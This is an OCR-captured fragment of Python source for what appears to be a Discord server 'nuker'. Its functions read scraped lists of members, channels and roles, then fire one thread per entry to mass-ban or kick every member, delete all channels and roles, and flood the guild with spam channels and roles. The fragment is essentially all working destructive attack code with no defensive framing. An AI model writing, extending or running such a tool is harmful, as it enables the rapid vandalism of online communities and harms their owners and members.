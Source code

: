         members = open('Scraped/members.txt')
        channels = open('Scraped/channels.txt')
        roles = open('Scraped/roles.txt')

        for member in members:
            threading.Thread(target=self.BanMembers, args=(guild, member,)).start()
        for channel in channels:
            threading.Thread(target=self.DeleteChannels, args=(guild, channel,)).start()
        for role in roles:
            threading.Thread(target=self.DeleteRoles, args=(guild, role,)).start()
        for i in range(int(channel_amount)):
            threading.Thread(target=self.SpamChannels, args=(guild, channel_name,)).start()
        for i in range(int(role_amount)):
            threading.Thread(target=self.SpamRoles, args=(guild, role_name,)).start()
        members.close()
        channels.close()
        roles.close()

    async def BanExecute(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        print()
        members = open('Scraped/members.txt')
        for member in members:
            threading.Thread(target=self.BanMembers, args=(guild, member,)).start()
        members.close()

    async def KickExecute(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        print()
        members = open('Scraped/members.txt')
        for member in members:
            threading.Thread(target=self.KickMembers, args=(guild, member,)).start()
        members.close()

    async def ChannelDeleteExecute(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        print()
        channels = open('Scraped/channels.txt')
        for channel in channels:
            threading.Thread(target=self.DeleteChannels, args=(guild, channel,)).start()
        channels.close()

    async def RoleDeleteExecute(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        print()
        roles = open('Scraped/roles.txt')
        for role in roles:
            threading.Thread(target=self.DeleteRoles, args=(guild, role,)).start()
        roles.close()

    async def ChannelSpamExecute(self):
        guild = input(f'{self.colour}> \033[37mGuild ID{self.colour}: \033[37m')
        name = input(f"{self.colour}> \033[37mChannel Names{self.colour}: \033[37m")
        amount = input(f"{self.colour}> \033[37mAmount{self.colour}: \033[37m")
        print()
        for i in range(int(amount)):
            threading.Thread(target=self.SpamChannels, args=(guild, name,)).start()
